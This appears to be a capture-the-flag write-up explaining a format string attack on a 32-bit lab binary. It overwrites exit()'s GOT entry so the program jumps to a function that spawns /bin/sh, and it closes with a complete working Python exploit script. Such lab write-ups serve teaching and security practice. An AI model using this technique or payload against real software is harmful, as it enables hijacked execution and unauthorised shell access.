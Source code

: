 ## Detailed Exploit Mechanics

### Format String Engineering
**Challenge**: Need to write large value 134,513,828 efficiently

**Solution**: Width specifier technique
- `%134513824c` prints exactly 134,513,824 characters (padded single character)
- Total characters: 4 (address bytes) + 134,513,824 (padding) = 134,513,828
- 134,513,828 in hex = 0x080484a4 (exactly the address of function o()!)

### Memory Write Process
```
Input to printf(): "\x38\x98\x04\x08%134513824c%4$n"
                      │               │           │
                      │               │           └─ Write count to position 4
                      │               └─ Print 134,513,824 chars  
                      └─ Target address (0x08049838)

Stack layout during printf():
Position 4: 0x08049838 (our target address)

%4$n writes 134,513,828 to address 0x08049838
Result: exit@got[0x08049838] = 0x080484a4
```

### Execution Flow Hijacking
```
Normal Flow:
main() → n() → fgets() → printf() → exit(1) → [program terminates]

After GOT Overwrite:
main() → n() → fgets() → printf() → exit(1) → o() → system("/bin/sh")
                                        │         │
                                        └─ redirected via GOT
                                              └─ shell access!
```

## Final Working Exploit

### exploit.py
```python
#!/usr/bin/env python2

import struct

# Addresses from analysis
o_function = 0x080484a4      # Function o() address (from GDB)
exit_got = 0x08049838        # exit() GOT address (from readelf)
STACK_POSITION = 4           # Stack position where our input appears

# Create payload for GOT overwrite
payload = struct.pack('<L', exit_got)    # Target address (4 bytes)
remaining = o_function - 4               # Characters needed for target value
payload += "%" + str(remaining) + "c"    # Width specifier
payload += "%" + str(STACK_POSITION) + "$n"  # Write to stack position 4

print payload
```
